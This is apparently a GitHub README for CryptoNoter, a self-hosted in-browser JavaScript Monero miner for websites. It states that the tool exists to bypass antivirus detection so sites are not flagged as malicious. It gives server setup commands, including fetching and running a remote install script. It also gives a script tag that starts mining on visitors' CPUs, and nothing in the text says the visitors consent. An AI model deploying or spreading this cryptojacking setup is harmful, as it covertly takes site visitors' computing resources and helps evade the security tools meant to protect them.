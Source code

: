 ## CryptoNoter v1.2
`"Plug & Play" Installation`
In-Browser Javascript XMR miner for websites / Payout towards personal XMR wallet<br />
Built for in-browser javascript mining on any Monero pools. 0% Commission. 100% Payout

## Why This Project Is Created
* Websites that use Javscript browser miners (Coinhive, Crypto-Loot, etc) are specifically targeted by most anti-virus softwares including the built-in Windows Defender. When visitors visit these websites, they will be notified that malicious codes / viruses have been detected on these websites. Well, you should know how such notification affects the website. In addition, you get charged up to 30% commission by these javscript mining platform.

This project is created to bypass detection and avoid being flagged as malicious websites by running your own Javscript Mining Server and deploying on your websites. It is similar to Coinhive idea, however you do not have to be charged for any percent of your earnings. You can point to any mining pool and get 100% for your mining efforts. (Of course, less the pool fees)

## Requirements
The project is a basically a "Plug & Play" installation. Most of the configurations are setup automatically when you run the installation. Simply follow the steps by steps installation. 

However, if you decide to modify or optimize CryptoNoter for maximum mining capabilities, you will need good knowledge on Nginx Reverse Proxy, javascript, etc. For example, we did approx 1550 H/s for a website with approx 15,000 visitors (Avg Time on Page: 55 secs / visitor) before optimization. After optimization, we are doing on avg 3500 H/s

`Minimum System Requirements`
1. Server with at least 1 CPU, 1 GB Ram & 8GB Harddisk [You will need better specs if you have higher traffic load]
2. Ubuntu(Debian) OS
3. Nginx, Nodejs, NPM & Forever Packages
4. SSL Support For Domain. Use https://certbot.eff.org/

`IMPORTANT NOTE:` DO NOT USE GOOGLE COMPUTE ENGINE (GCE) or other related Google CLoud Services for crypto-mining services. It is in violation of their TOS. Google will suspend your account, lock your files and charge you for the usage. Been there, done that. So don't waste your precious time.

## Installation
```bash
Install Nginx
sudo apt-get update
sudo apt-get install nginx
```

Install NodeJs & NPM
```bash
sudo apt-get update
sudo apt-get install nodejs
sudo apt-get install npm
```

Install CryptoNoter
```bash
curl https://raw.githubusercontent.com/cryptonoter/CryptoNoter/master/install.sh > install.sh
sudo sh install.sh
```

## Usage
* Run CryptoNoter server.js script
```bash
forever start /srv/CryptoNoter/server.js
```
* Make sure CryptoNoter server.js script is running on the server by using the command `forever list`
```bash
info:    Forever processes running
data:        uid  command       script                     forever pid  id logfile                 uptime
data:    [0] tX4L /usr/bin/node /srv/CryptoNoter/server.js 7379    7385    /root/.forever/tX4L.log 0:0:59:11.96
```
* Make sure you have uploaded the web folder to your domain public_html or domain root. Ensure you can access https://YOUR_DOMAIN_NAME/demo.html

* Add the following javascript before the </head> tag onto webpages that you want the miner to run on. Remember to replace www.cryptonoter.com with your domain name. Else, you will be mining for my wallet
```html
<script src="https://www.cryptonoter.com/processor.js"></script>
<script>
    var miner = new CryptoNoter.Anonymous('CryptoNoter').start();
</script>
```
* Done! You can now start mining using your visitors' CPU resources by adding the above tag to any of your websites.

## Troubleshooting
Check if server.js execute successfully by using this command
```bash
node /srv/CryptoNoter/server.js
```
If script executes successfully, it should show:
```bash
In-Browser Javascript XMR miner for websites / Payout towards personal XMR wallet
Built for in-browser javascript mining on any Monero pools. 0% Commission. 100% Payout

 Listen on : 127.0.0.1:7777
 Pool Host : monero.us.to:1111
 Ur Wallet : YOUR_WALLET_ADDRESS
```
If script executes unsucessfully, it should show error logs. Troubleshoot by referring to the errors shown.
`For example:` The error log shown below means that the port 7777 is currently in use. `To resolve:` Simply listen to the port 7777, identify the process that is using the port and kill the process. Then try executing the script server.js again
```bash
Error: listen EADDRINUSE 127.0.0.1:7777
    at Object._errnoException (util.js:1024:11)
    at _exceptionWithHostPort (util.js:1046:20)
    at Server.setupListenHandle [as _listen2] (net.js:1351:14)
    at listenInCluster (net.js:1392:12)
    at doListen (net.js:1501:7)
    at _combinedTickCallback (internal/process/next_tick.js:141:11)
    at process._tickCallback (internal/process/next_tick.js:180:9)
    at Function.Module.runMain (module.js:678:11)
    at startup (bootstrap_node.js:187:16)
    at bootstrap_node.js:608:3
```
`Common Issues & Bugs:`
1. Port in use. Check if the port is listening?
2. Connection errors are commonly casused by iptables. Check your firewall settings
3. CryptoNoter not generating hashes. Check your config.json setting
4. Check the setting of nginx.conf, config.json, worker.js, processor.js & cryptonight-asmjs.min.js

If you have any questions on Troubleshooting & Debugging, please ask the questions here: https://github.com/cryptonoter/CryptoNoter/issues/1

